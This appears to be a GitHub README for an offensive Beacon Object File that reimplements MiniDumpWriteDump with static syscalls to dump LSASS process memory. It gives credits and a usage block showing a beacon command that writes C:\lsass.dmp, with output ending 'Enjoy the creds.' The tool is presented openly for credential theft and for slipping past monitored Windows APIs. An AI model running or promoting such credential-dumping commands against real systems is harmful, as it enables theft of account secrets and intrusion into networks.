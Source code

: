 # MiniDumpWriteDump BOF (64-bit only) 

Custom implementation of DbgHelp's MiniDumpWriteDump function. Uses static syscalls to replace low-level functions like NtReadVirtualMemory. 

Syscalls generated using @jthuraisamy's [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

Code is adapted from ReactOS's implementation of MiniDumpWriteDump at [minidump.c](https://doxygen.reactos.org/d8/d5d/minidump_8c_source.html).

> Disclaimer: I am not a professional C developer, this is largely cobbled together using public snippets and resources. It is likely not the best code you've ever seen :) 

## Usage

```
beacon> minidumpwritedump 756 C:\lsass.dmp
[*] Static Syscalls Custom MiniDumpWriteDump BOF (@rookuu_)
[+] host called home, sent: 12165 bytes
[+] received output:
OS Version: 10.0.18362
[+] received output:
Done! Enjoy the creds. (C:\lsass.dmp)
```

